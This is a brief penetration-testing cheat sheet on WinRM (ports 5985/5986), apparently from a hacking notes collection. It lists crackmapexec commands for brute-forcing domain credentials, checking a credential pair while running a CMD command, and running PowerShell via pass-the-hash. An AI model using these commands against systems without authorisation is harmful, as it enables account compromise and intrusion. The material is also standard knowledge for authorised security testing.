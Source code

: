 *Listen on one of two ports:*

- **5985/tcp (HTTP)**
- 5986/tcp (HTTPS)

### Brute force

```
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Just check a pair of credentials
### Username + Password + CMD command execution

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
```

### Username + Hash + PS command execution
### Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
```


